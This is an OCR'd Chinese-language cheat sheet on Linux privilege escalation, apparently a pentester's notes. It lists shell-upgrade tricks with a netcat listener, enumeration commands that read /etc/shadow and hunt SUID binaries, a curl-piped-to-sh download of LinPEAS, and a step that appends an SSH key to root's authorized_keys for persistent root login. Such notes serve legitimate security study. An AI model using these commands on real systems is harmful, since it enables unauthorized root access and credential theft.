 # Linux提权小记

## 运行 Linpeas 脚本以枚举远程服务器

```
    ./linpeas.sh
```

## 切换完整 Bash

```
python3 -c 'import pty;pty.spawn("/bin/bash");'

CTRL + Z
stty raw -echo
fg
export TERM=xterm-color

OR

rlwrap nc -lvnp <port>
```

## 手工枚举

```
id：显示当前⽤户的 UID（⽤户 ID）、GID（组 ID）以及所属的其他组的信息
who：显示当前登录的⽤户及相关信息，如登录时间、终端等
whoami：显示当前⽤户的⽤户名
w：提供关于当前登录⽤户的详细信息，包括他们在做什么以及系统的负载信息
last:：显示系统最近的登录记录
```


```
uname -a：为我们提供关于系统使⽤的内核的附加详细信息。在寻找可能导致提权的任何潜在内核漏洞时，这将⾮常有⽤
lsb_release -a：这个命令⽤于显示Linux标准基础（LSB）的发⾏信息。 -a 选项表示显示所有
可⽤信息。它将显示诸如发⾏编号、发⾏名称、发⾏描述等信息
cat /proc/version ：这个命令⽤于显示内核版本和编译信息。 /proc/version ⽂件包含了内核
版本、编译器版本和其他相关信息。要查看是否安装了GCC就可以⽤这条命令
cat /etc/issue：这个命令⽤于查看系统的发⾏版本信息。 /etc/issue ⽂件包含了操作系统发⾏版的名称和版本
cat /etc/*-release：这个命令⽤于查看系统发⾏版的详细信息。它会搜索 /etc/ ⽬录下所有以
-release 结尾的⽂件，并显示它们的内容。这些⽂件通常包含操作系统的发⾏名称、版本、代号等信息
```


```
ip a:旧版命令ifconfig,这些命令为我们提供有关⽹卡、⽹络配置的信息。多张⽹卡配合路由信息可以发现内⽹⽹段
ip route：⽤于查询路由表，route是过时的命令
ip neigh：⽤于查询邻居表
arp -a：则⽤于显示ARP缓存，有些⼈⽤它作内⽹主机发现
```


```
hostname:查看机器主机名，新版内核linux可以用hostnamectl
```


```
getcap -r / 2>/dev/null:关于Linux capabilities ，它为进程提供了⼀部分可⽤的 root 权限
⼦集。有效地将 root 权限划分成较⼩且独特的单元。然后，可以独⽴地将这些单元授予进程。这样，权限集合就会减少，降低了被利⽤的⻛险
```


```
ls -liah:列出详细隐藏信息
history:历史记录
```


```
cat /etc/passwd
cat /etc/shadow
cat /etc/crontab:自动任务
echo $PATH
env:环境变量
ps -ef:查看进程
ps axjf ：查看进程树
```


```
netstat -a ：显示所有正在监听的端⼝和已建⽴的连接。
netstat -at 或 netstat -au 也可⽤于分别列出TCP或UDP协议。
netstat -l ：列出处于“监听”模式的端⼝。这些端⼝是打开的，并准备接受传⼊的连接。
可以将其与“t”选项⼀起使⽤，仅列出使⽤TCP协议监听的端⼝
netstat -s ：按协议列出⽹络使⽤统计数据（如下所示）也可以与 -t 或 -u 选项⼀起使⽤以限制
输出到特定协议
netstat -tp ：列出服务名称和PID信息的连接。
netstat -i ：显示接⼝统计信息。我们在下⾯看到“eth0”和“tun0”⽐“tun1”更活跃
```


```
find / -perm -u=s -type f 2>/dev/null ：查找设置了SUID位的⽂件，这使我们可以以⽐当前⽤
户更⾼的特权级别运⾏⽂件
```


```
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp tmux
screen 2>/dev/nul
```
![[Pasted image 20250504164902.png]]

```
cat /etc/fstab:检测未挂载的⽂件系统
```




## 自动化枚举

### LinPEAS

全称为 Linux Privilege Escalation Awesome Script ，是⼀个⽤来搜索类 unix 主机上可能
的提权路径的⾃动化脚本。

Github：https://github.com/peass-ng/PEASS-ng

```
curl -L https://github.com/carlospolop/PEASSng/releases/latest/download/linpeas.sh | sh
```

### LinEnum

⼀个流⾏的 Linux 本地枚举脚本，⽤于收集有关系统的各种信息，识别不安全的配置，
提取可⽤于提升权限的漏洞信息

Github：https://github.com/rebootuser/LinEnum

### linux-smart-enumeration （lse）

这是⼀个具有模块化功能的 Linux 本地枚举脚本它可在不同的等级上运⾏以获取不同详细程度的信息

Github：https://github.com/diego-treitos/linux-smart-enumeration

### linux-exploit-suggester

该⼯具主要⽤于识别 Linux 系统中可能存在的可利⽤的漏洞，
以帮助⽤户提升权限。

Github：https://github.com/The-Z-Labs/linux-exploit-suggester

### Linuxprivchecker

⼀个⽤于检查 Linux 系统潜在安全问题的 Python 脚本，
包括⽂件权限、系统服务和 SUID ⼆进制⽂件等。 

Github：https://github.com/sleventyeleven/linuxprivchecker

### unix-privesc-check

这个脚本主要⽤于识别 类UNIX 系统中可能的权限升级路径，
通过检查⽂件权限、系统配置等⽅⾯的问题

Github：https://github.com/pentestmonkey/unix-privesc-check


## 非对称加密

-  创建新的SSH密钥

```
    ssh-keygen -f key
```

-  将生成的公钥添加到用户

```
    echo "ssh-rsa AAAAB...SNIP...M= enil@aaa">> /root/.ssh/authorized_keys
```
-  使用生成的私钥SSH连接到服务器

```
    ssh root@10.10.10.10 -i key
```
-  枚举脚本

```
	PEASS
```
